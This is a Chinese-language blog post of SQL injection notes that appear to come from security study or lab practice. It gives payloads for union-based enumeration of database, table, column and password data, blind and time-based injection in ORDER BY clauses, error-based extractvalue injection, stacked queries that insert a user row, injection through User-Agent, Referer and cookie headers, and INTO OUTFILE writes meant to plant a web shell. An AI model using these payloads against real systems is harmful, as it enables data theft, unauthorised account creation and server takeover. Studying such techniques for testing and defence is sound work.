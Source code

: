 ```yaml
---
published: true
---
```


### Union注入漏洞存在时注入步骤：
1、order by num 来判断这个表有多少个字段  
2、知道字段数后，可以利用union查询 union select 1，2，3.。。num FROM 表名  
 例如：id=1 UNION SELECT 1，2，3，table_schema FROM information_schema.TABLES //来查询数据库名。
  可能要求 UNION SELECT 1，2，3，(select table_schema FROM information_schema.TABLES)才能成功
3、id=1 UNION SELECT 1，2，3，group_concat(table_name) FROM information_schema.TABLES where table_schema=‘想要查询的数据库名字’ //查询所选数据库中所有的表名
4、union select 1，2，3，group_concat(column_name) from information_schema.COLUMNS where table_schema=’数据库名’ and table_name=‘表名’//查询表中的字段名
5、知道pass段名有user union select 1，2，3，pass from user

### Order by注入：
当原始sql语句是order by时不能使用union等进行注入
1、可以使用rand()函数，如果order by rand(true)和order by rand(false)的结果不同，就可以进行盲注。(rand()产生随机数）
![](https://github.com/ljjbloghub/ljjbloghub.github.io/blob/master/img/SQL1.jpg)
   
   rand(ascii(substr(database(),1,1)) > 100)根据结果返回值判断真假。
2、报错注入
sort=（extractvalue(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database() ) )) ）#字符型考虑闭合’and (extractvalue)—+
3、导入导出文件into outfile参数
    ?sort=1 into outfile "c:\\xampp\\htdocs\\test1.txt”
    然后考虑上传网马，利用lines terminated by。
    ?sort=1 into outfile "c:\\xampp\\htdocs\\test1.txt” terminated by 0x(网马进行16进制转换)
4、延时注入
？sort=1’ and if(ascii(substr(database(),1,1))>100,0,sleep(5) )—+
#(如果为假，就会有延迟)，if(判断,sleep(),1)为真会有延迟


### 堆叠查询：即构成多个语句，每一条语句结尾加 ; 表示语句结束。并不是每一个环境下都可以执行
   id=1%27;insert into users(id,username,password) values (‘40’,’Ren’,’hello’)

### user-agent头存在注:同理 referer
在服务器能够获取ua信息时却对ua内容没有进行过滤时，通过burp使用报错注入
![]({{site.baseurl}}/https://github.com/ljjbloghub/ljjbloghub.github.io/blob/master/img/sql2.jpg)

报错信息’）要需求多构造）

![]({{site.baseurl}}/https://github.com/ljjbloghub/ljjbloghub.github.io/blob/master/img/sql3.jpg)


### cookie注入：
对cookie的值进行union注入,注意cookie是否经过编码
